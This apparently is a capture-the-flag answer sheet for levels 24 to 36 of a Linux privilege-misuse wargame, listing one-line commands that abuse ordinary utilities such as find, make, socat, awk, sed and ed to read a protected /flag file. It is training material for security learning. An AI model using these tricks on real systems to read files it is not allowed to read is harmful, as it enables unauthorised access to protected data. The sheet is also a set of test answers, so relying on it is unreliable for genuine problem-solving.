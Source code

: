 #### Level24

`env cat /flag`

#### Level25

`find / -name 'flag' -exec cat /flag \;`

*the `-name` parameter is avoidable*

#### Level26

`make --eval="all:; cat /flag"`

***alternative***	`echo "all:; cat /flag" > flag; make -f flag`

#### Level27

`nice cat /flag`

#### Level28

`timeout 1 cat /flag`

#### Level29

`stdbuf -o0 cat /flag` 

#### Level30

`setarch -R cat /flag`

#### Level31

`watch -x cat /flag`

#### Level32

`socat EXEC:'cat /flag' -`

`socat -u /flag -`

`socat FILE:/flag -`

#### Level33

`whiptail --textbox /flag 10 30`

#### Level34

`awk 1 /flag` or `awk "//" /flag`

#### Level35

`sed "" /flag`

#### Level36

`echo "p" | ed /flag`

